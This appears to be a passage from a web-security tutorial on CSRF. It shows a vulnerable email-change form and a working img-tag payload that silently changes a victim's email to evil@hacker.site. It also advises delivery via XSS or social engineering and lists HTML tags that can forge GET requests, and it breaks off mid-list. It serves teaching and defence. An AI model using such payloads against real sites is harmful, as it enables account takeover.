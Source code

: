 ```html
<form action="change.php"
<label name="email">Your email is: <b>myC00Lemail@victim.site</b></label>
<input type="hidden" name="old" value="myC00Lemail@victim.">
<label name="email">New email</label>
<input type="email" name="new" placeholder="your new email" required>
<input type="submit" value="Confirm">
</form>
```

As noted, the form is submitted using the HTTP GET method and does not adopt any anti CSRF protection.
Now, to exploit this vulnerability, we need to generate a GET request and then trick the victim (or their browser) into executing it.



The simplest method to generate a GET request is to use images. This is merely because GET is the standard method used when requesting an image with HTML.

```html
<img src='http://victim.site/csrf/changeemail/change.php?old=mycoolemail%40victim.site&new=evil%40hacker.site'>
```

To deliver the attack, we must exploit an existing flaw like XSS, and inject either HTML or JavaScript. Otherwise, we need to social engineer the victim in order to have them visit our malicious page or click a link we provide.



The example with the IMG tag is very common; however, it is not the only solution to forging GET requests by using only HTML tags. These are some alternative methods of accomplishing this.

HTML4:

- `<a href=url>`
- `<applet codebase=url>`
- `<area href=url>`
- `<base href=url>`
- `<blockquote cite=url>`
- `<body background=url>`
- `<del cite=url>`
- `<form action=url>`
- `<frame longdesc=url>` and `<frame src=url>`
- `<head profile=url>`
- `<iframe longdesc=url>` and `<iframe src=url>`
- `<img longdesc=url>` and `<img src=url>` and `<img usemap=url>`
- `<input src=url>` and `<input usemap=url>`
- `<ins cite=url>`
- `<link href=url>`
- `<object classid=url>` and `<object codebase=url>` and `<object data=url>` and `<object usemap=url>`
- `<q cite=url>`
- `<script src=url>`

HTML 5 adds a few (and HTML5 seems to not use some of the ones above as well):
